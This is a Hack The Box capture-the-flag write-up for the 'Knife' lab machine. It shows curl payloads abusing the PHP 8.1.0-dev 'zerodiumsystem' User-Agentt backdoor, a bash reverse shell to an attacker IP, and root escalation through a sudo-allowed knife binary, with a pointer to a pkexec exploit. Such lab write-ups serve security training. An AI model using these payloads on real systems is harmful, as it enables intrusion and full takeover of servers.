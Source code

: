 ```yaml
---
layout: single
title: Knife - Hack The Box
excerpt: "Knife is a quick and fun easy box where we have to abuse of the User-Agent of PHP 8.1.0-dev to have RCE and after that be root by taking advantage of the Knife binary"
date: 2023-01-10
classes: wide
toc: true
toc_label: "Contenido"
toc_icon: "fire"
header:
  teaser: /assets/images/htb-writeup-knife/new3.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:  
  - PHP 8.1.0-dev - 'User-Agent' [RCE]
  - Abusing Sudoers Privilege (Knife Binary) [Privilege Escalation]
---
```


<p align="center">
<img src="/assets/images/htb-writeup-knife/knife_logo.png">
</p>

Knife is a quick and fun easy box where we have to abuse of the User-Agent of PHP 8.1.0-dev to have RCE and after that be root by taking advantage of the Knife binary.

## PortScan

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-10 13:57 CST
Nmap scan report for 10.10.10.242
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Website

The Knife website runs on port 80 and has the following technologies reported by wappalyzer 

![](/assets/images/htb-writeup-knife/website1.png)

## Enumeration

I use curl and I see this that version of PHP is vulnerable to RCE
```bash
curl -s http://10.10.10.242 -I
```
```bash
HTTP/1.1 200 OK
Date: Tue, 10 Jan 2023 20:05:33 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Content-Type: text/html; charset=UTF-8
```

We can found information here 
- [https://www.exploit-db.com/exploits/49933](https://www.exploit-db.com/exploits/49933)

I can abuse of the User-Agent because is vulnerable to RCE

```bash
curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('id');" | html2text
```
```bash
uid=1000(james) gid=1000(james) groups=1000(james)
    * About EMA
    * /
    * Patients
    * /
    * Hospitals
    * /
    * Providers
    * /
    * E-MSO

***** At EMA we're taking care to a whole new level . . . *****
****** Taking care of our  ******
```

And is vulnerable so we can send a reverse shell 
```bash
curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('bash -c \"bash -i >& /dev/tcp/10.10.14.21/443 0>&1\"');" | html2text
```
```bash
nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.242] 60468
bash: cannot set terminal process group (983): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$
```

We can have a best bash terminal so we can do
```bash
script /dev/null -c bash
Ctrl + z
stty raw -echo; fg
reset xterm
```
## User flag

We can see the first flag

```bash
james@knife:~$ cat user.txt 
9adc315d20ef969531a7b07c66a31d19
```

## Root

After enumerating the system I can see that I can run this binary as root, we can use Gtfobins

```bash
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

-[https://gtfobins.github.io/gtfobins/knife/#sudo](https://gtfobins.github.io/gtfobins/knife/#sudo)

We follow the instructions and we're root

```bash
james@knife:~$ sudo knife exec -E 'exec "/bin/sh"'
# bash
root@knife:/home/james# cd /root
root@knife:~# cat root.txt 
f8c5f763d30a3ed17dd24c4c216fd87b
```

## Another way to be root

You can abuse of the pkexec because is SUID but I won't do it

```bash
james@knife:/$ find -perm -4000 2>/dev/null | grep -v snap
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/lib/eject/dmcrypt-get-device
./usr/lib/openssh/ssh-keysign
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/bin/sudo
./usr/bin/su
./usr/bin/fusermount
./usr/bin/pkexec
./usr/bin/gpasswd
./usr/bin/passwd
./usr/bin/umount
./usr/bin/chfn
./usr/bin/chsh
./usr/bin/mount
./usr/bin/newgrp
./usr/bin/at
```

-[https://github.com/Almorabea/pkexec-exploit](https://github.com/Almorabea/pkexec-exploit)

Only transfer the script to the machine and execute and that's all





